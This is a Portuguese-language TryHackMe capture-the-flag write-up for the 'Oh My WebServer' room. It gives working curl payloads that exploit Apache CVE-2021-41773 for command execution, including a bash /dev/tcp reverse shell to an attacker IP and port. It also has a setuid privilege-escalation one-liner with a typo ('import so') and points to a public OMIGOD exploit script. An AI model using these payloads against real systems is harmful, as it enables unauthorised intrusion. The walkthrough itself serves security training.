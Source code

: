 ```yaml
---
title: THM - Oh My WebServer
author: guialvesf
date: 2022-03-24 01:00:00 -0300
categories: [tryhackme, writeup]
tags: [tryhackme, writeup]
image: "/img/thm/ohmywebserver/banner.png"
alt: "tryhackme"
---
```



<p align="center" width="100%">
    <img src="/img/thm/ohmywebserver/banner.png"> 
</p>
<hr>

# Recon
Começando com Nmap, vamos enumerar a máquina para ver quais portas e serviços estão rodando no servidor.

* -sC - Default Nmap scripts
* -sV - Services version
* -oA - Save output to a file
* -v  - Verbose mode

![nmap](/img/thm/ohmywebserver/nmap.png)

Apenas as portas 80 e 22 estão abertas, executando um Apache 2.4.4 e um SSH respectivamente. Então vamos começar pela aplicação web.

![consult](/img/thm/ohmywebserver/consult.png)

A princípio não há nada demais, então podemos enumerar os diretórios usando o `ffuf`

`ffuf -u http://10.10.148.87/FUZZ -w /path/to/wordlist -t 90 -c`

* -u - Target URL
* -w - Wordlist file path
* -t - Number of concurrent threads
* -c - Colorize output

![ffuf](/img/thm/ohmywebserver/ffuf.png)

Encontrei dois diretório que podem ser interessantes: `assets` e `cgi-bin`

![assets](/img/thm/ohmywebserver/assets.png)

Porém a princípio não havia nada de mais

![cgi-bin](/img/thm/ohmywebserver/cgi-bin.png)

## Reverse shell

Após não encontrar muita coisa, voltei nos resultados do Nmap e notei que a versão do Apache que estava sendo executada havia uma CVE: `CVE-2021-41773`. Podemos confirmar usando o cURL.

`curl 'http://10.10.148.87/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'Content-Type: text/plain; echo; whoami && id'`

![curl-first-command](/img/thm/ohmywebserver/curl_first_command.png)

Consegui um Path Traversal, no qual conseguimos executar comandos, então podemos usar o cURL e o netcat para estabelecer uma conexão reversa.

`curl 'http://10.10.148.87/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash' -d "Content-Type: text/plain; echo; bash -c 'exec bash -i &>/dev/tcp/$IP/$PORT/ <&1'"`

![reverse-shell](/img/thm/ohmywebserver/reverse_shell.png)

## User

Recebi a conexão, porém não tem nenhum usuário no sistema e também nenhum diretório home.

![no-user](/img/thm/ohmywebserver/no-user.png)

Após passar algum tempo procurando um ponto de partida decidi usar o linPEAS, e foi onde obtive a seguinte saída:

![linpeas](/img/thm/ohmywebserver/linpeas.png)

Com isso podemos setar o UID usando o python.

`python3 -c 'import so; os.setuid(0); os.system("/bin/bash")'`

![setuid](/img/thm/ohmywebserver/user.png)

## Root

Após a enumeração olhei novamente a saída do linPEAS, e foi onde econtrei algo interessante: há outro endereço IP. Então podemos usar o Nmap para enumerar esse host. Você pode baixar o binário [aqui](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64).

`nmap -v 172.17.0.0-5`

Esse comando vai fazer um scan do host 0 ao 5, e saída nos mostra que o host 172.17.0.1 está ativo.

![nmap_ntw](/img/thm/ohmywebserver/nmap_ntw.png)

Enumerando todas as 65535 portas o scan apontou duas portas abertas: `5985` e `5986`

![nmap_nports](/img/thm/ohmywebserver/nmap_nports.png) 

Com isso temos outra CVE: `CVE-2021-38647`, na qual podemos usar um script já pronto para explorar a falha. Você pode baixar o script [aqui](https://github.com/AlteredSecurity/CVE-2021-38647).

![omigod](/img/thm/ohmywebserver/omigod.png)

O scrip executa comandos na máquina alvo, então podemos passá-los na execução como argumento, lendo a flag de root.

![root](/img/thm/ohmywebserver/root.png)
